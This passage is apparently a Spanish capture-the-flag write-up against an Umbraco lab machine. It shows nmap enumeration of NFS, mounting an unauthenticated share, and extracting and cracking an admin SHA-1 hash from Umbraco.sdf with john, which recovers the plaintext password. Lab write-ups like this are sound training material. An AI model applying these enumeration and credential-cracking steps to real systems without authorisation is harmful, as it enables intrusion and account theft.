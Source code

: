 ```console
sudo nmap -p2049 -sU -sCV 10.129.230.172
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-29 15:06 CET
Nmap scan report for 10.129.230.172
Host is up (0.036s latency).

PORT     STATE SERVICE VERSION
2049/udp open  nfs     2-4 (RPC #100003)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.63 seconds
```

Una vez confirmado, vamos a intentar montar este NFS en nuestra máquina de atacante y con suerte no necesitamos autenticación.

```console
➜  content sudo mkdir /mnt/montura
➜  content sudo mount -t nfs 10.129.230.172:/ /mnt/montura -o nolock
➜  content ls -la /mnt/montura
total 4
drwxrwxrwx 2 nobody nogroup   64 Nov 29  2024 .
drwxr-xr-x 3 root   root    4096 Nov 29 15:07 ..
drwx------ 2 nobody nogroup 4096 Feb 23  2020 site_backups
```

Una vez montado, vamos a enumerar que se encuentra en el NFS.

## Information Disclosure + Hash Cracking
Encontré en [este foro](https://our.umbraco.com/forum/getting-started/installing-umbraco/35554-Where-does-Umbraco-store-usernames-and-passwords) que existe un archivo llamado `Umbraco.sdf` que contiene una versión de la base de datos por lo cual quizás contenga credenciales de acceso.

Filtrando por el usuario `admin` ya que hay varios, vemos lo que parece un hash SHA-1
![Write-up Image](images/Screenshot_7.png)

Podemos intentar crackear este hash con `john` y lo conseguimos.
```console
john -w=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
baconandcheese   (?)
1g 0:00:00:00 DONE (2024-11-29 15:18) 1.041g/s 10233Kp/s 10233Kc/s 10233KC/s baconandchipies1..baconandcabbage
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.
```
